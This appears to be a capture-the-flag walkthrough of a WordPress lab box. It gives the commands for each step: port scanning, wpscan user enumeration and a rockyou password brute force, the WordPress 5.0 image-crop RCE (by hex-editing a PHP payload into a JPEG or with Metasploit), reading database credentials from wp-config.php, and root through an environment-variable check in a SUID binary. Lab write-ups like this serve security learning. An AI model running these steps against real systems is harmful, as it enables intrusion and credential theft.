









## ENUMERATION

Start with a fast scan to spot open ports, then go deeper on whatever pops:

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Open ports: **22, 80, 139, 445**

Focused scan:

```bash
nmap -p22,80,139,445 -sC -sV -vv -oN scan.nmap <IP>
```


---

## PORT 80 — WordPress

Since the box is rocking WordPress, straight to `wpscan`:

```bash
wpscan --url http://<IP> -tpv
wpscan --url http://<IP> -u
```

* `-t` → enumerate themes
* `-p` → enumerate plugins
* `-u` → enumerate users
* `-v` → vuln check (needs API token)
     
*Screenshots*:      


           

Enumerate valid usernames further from error messages on `/wp-login`.




Then brute force:

```bash
wpscan --url http://<IP> --usernames <user.txt> --passwords /usr/share/wordlists/rockyou.txt
```

Found **xmlrpc.php**. Useful in general for bruteforcing or post APIs, but not helpful for this box.

---

## EXPLOITATION

After cracking WP creds → log in via `/wp-login`.

WordPress version detected: **5.0**, which has RCE via image-crop chain.

### 🔥 ExploitDB Approach (manual)

Exploit link: [https://www.exploit-db.com/exploits/49512](https://www.exploit-db.com/exploits/49512)

Problem:
The image-cropper filters out your PHP payload unless it's hidden in a safe, untouched part of the JPEG. Meta data gets reconstructed 

Solution:

* Use `hexeditor` to insert the PHP payload *after* the JPEG metadata region (`FF DA` onwards).
* Make sure the injected bytes survive the crop process.
* Try → crop → inspect → repeat.

```bash
hexeditor exploit.jpg
```



This works, but it's annoying — so…

---

### ⚡ Metasploit Approach (easier)

Module: `exploit/multi/http/wp_crop_rce`

It works cleanly and gives a meterpreter shell.

Grab WordPress DB creds from: `wp-config.php`



Login to MySQL from shell:

```bash
mysql -u <usr> -p <pass> -h localhost
```



Never needed it though -_-

---

## PRIVILEGE ESCALATION

Search for SUID binaries:

```bash
find / -perm -4000 2>/dev/null
```

Found a spicy one:

```
/usr/sbin/checker
```

Never seen that in standard Linux → sus.
Downloaded locally → tossed into **Ghidra**.

Turns out it checks for an environment variable **admin** .If set then spawns a shell as root.



Exploit:

```bash
export admin=admin
/usr/sbin/checker
```

Boom → root.



---

## REFERENCES
* WordPress Crop RCE Module
* [Bilal Rizwan’s writeup on XMLRPC](https://the-bilal-rizwan.medium.com/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32)
